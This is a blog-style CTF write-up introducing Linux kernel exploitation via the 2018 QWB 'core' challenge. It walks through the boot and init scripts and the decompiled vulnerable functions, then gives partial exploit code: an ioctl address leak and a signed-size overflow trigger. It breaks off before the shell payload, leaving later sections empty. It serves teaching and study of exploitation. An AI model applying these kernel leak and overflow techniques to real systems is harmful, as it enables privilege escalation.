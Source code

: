 ```yaml
---
title: "Introduction of Kernel Exploitations"
date: 2022-05-16 19:09:21
tags: 
layout: default
---
```

# Prilogue
I only have little experience about kernel and kernel pwn. During the `Intro_to_OS` course, I read a lot kernel code of `xv6` and learned the kernel systematically. Algough, `xv6` is a simple system while the `linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep in the kernel because I am too weak to do that and I got all the solution ideas from `ctf-wiki`. You can also download the attachments at this [link][1]
# Stack Overflow

In kernel, we also have stack overflow. But the exploitation is a little different from in user mode. There are kinds of countermeasures in kernel, such as `kaslr`, `smep`, `smap`. Besides, we need to come back to user mode after perform privilege eascaping. 

I'll start from a simple challenge and go through the expoit script to demostrate the steps in kernel exploitation. You can get the attachment at this [link][2].

## Kernel-ROP:2018-QWB-Core
For kernel challenge, we would like to start from the boot script, `start.sh`.
```sh
qemu-system-x86_64 \
-m 2G \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  

```

> Tips: Sometimes you need to change the memory limit for qemu vm to run the qemu vm, such as `-m 2G`

> Tips: If there are multi-cores, this challenge may be related to the race condition.

In this challenge on only have `kaslr`, which means there is no `smap` and `smep`. During the debugging, we can modify the boot script to trun of the kaslr(`... quiet nokaslr"`).

And I would check the `init` script in the file system.

```sh
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
cat /proc/kallsyms > /tmp/kallsyms
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 
insmod /core.ko

setsid /bin/cttyhack setuidgid 1000 /bin/sh
echo 'sh end!\n'
umount /proc
umount /sys

poweroff -d 0  -f
```

It's also a script, which init the setting of challenge eviroment. As we can see, we can't read the symbol address in `/proc/kallsyms` and use `dmesg` to debug. However, all the symbols are copyied in `/tmp/kallsyms`(Line 9). Also, you can comment line 10-11 and change uid at line 18 to 0 while debugging.

After reviewing these scripts, we can start the reversing. There is nothing important in `init_module` and `exit_core` while in `core_ioctl` we have three functions. 

```c
__int64 __fastcall core_copy_func(__int64 a1)
{
  __int64 result; // rax
  _QWORD v2[10]; // [rsp+0h] [rbp-50h] BYREF

  v2[8] = __readgsqword(0x28u);
  printk(&ss1);
  if ( a1 > 63 )
  {
    printk(&unk_2A1);
    return 0xFFFFFFFFLL;
  }
  else
  {
    result = 0LL;
    qmemcpy(v2, &name, (unsigned __int16)a1);
  }
  return result;
}
__int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  printk(&ss1);
  if ( a3 <= 0x800 && !copy_from_user(&name, a2, a3) )
    return (unsigned int)a3;
  printk(&ss2);
  return 4294967282LL;
}
```

The most important two functions are `core_copy_func` and `core_write`. We can use `write(fd,buf,0x800)` to fill the buffer `name` and use `core_copy_func` to trigger the buffer overflow because the buffer length is limited and the size is an interger so that we can use "-1" to bypass the check(`<0x40`).

The solution is simialr to the user space bof challenge's.
- Leak the kernel space address.
- Use `write` to copy the payload to the kernel space
- Use `ioctl` to call `core_copy_func` to trigger the buffer overflow
- Control RIP to perform later attacking

The leak part is simply because we can read arbitrary address by combining `ioctl(fd,OFF,off)` and `read`.
```c
#define OFFSET  0x6677889C
#define READ    0x6677889B
#define OOB     0x6677889A
int main()
{
    char buf[0x1000];
    memset(buf,0,0x1000);
    int fd = open("/proc/core",2);
    if(!fd>0)
        Panic("Open");
    // Leak the kernel address
    ioctl(fd,OFFSET,0x60);
    ioctl(fd,READ,buf);
    size_t leaked_address =  u64(buf);
    printf("%p\n",leaked_address);
    ...
```
And there is the asm code of `core_copy_func`
```asm
push    rbx
.text:00000000000000F7                 mov     rbx, rdi
.text:00000000000000FA                 mov     rdi, offset ss1 ; _QWORD
.text:0000000000000101                 sub     rsp, 48h
.text:0000000000000105                 mov     rax, gs:28h
.text:000000000000010E                 mov     [rsp+50h+var_10], rax
.text:0000000000000113                 xor     eax, eax
.text:0000000000000115                 call    printk
.text:000000000000011A                 cmp     rbx, 3Fh ; '?'
.text:000000000000011E                 jg      short loc_133

```
As we can see in the above asm code, the the `rdi` is compared to `0x3f`. There is a vulnerability in this check. Because it uses `jg` which means `rdi` is a `signed int`. Therefore, we can use some negtive number to bypass it. I wrote the following simple demo to trigger the bof.
```c
#define OFFSET  0x6677889C
#define READ    0x6677889B
#define OOB     0x6677889A
int main()
{
...
    memset(buf,1,0x1000);
    size_t poc = -1;
    ioctl(fd,OOB,poc);
}
```
If you debug this demo, you would find our negtive parameter bypasses the check. However, this demo can't hit the return because -1 is too large and some important data would be broken. 
```
.text:0000000000000120                 movzx   ecx, bx
.text:0000000000000123                 mov     rsi, offset name
.text:000000000000012A                 mov     rdi, rsp
.text:000000000000012D                 xor     eax, eax
.text:000000000000012F                 rep movsb
```
In above code, `bx` is moved to `ecx`. And `ecx` is used as the length to copy the data. Therefore we can make a better payload to avoid triggering the crash: `size_t poc = (1<<63) | 0x100`.

So our current task is construct a payload to get the shell. There are several feasible solutions in this challenge.

Because there is no `smep`, we can run implement the tasks in our user space rather than ROP. 



# Use after Free


# 


[1]: xxx
[2]: 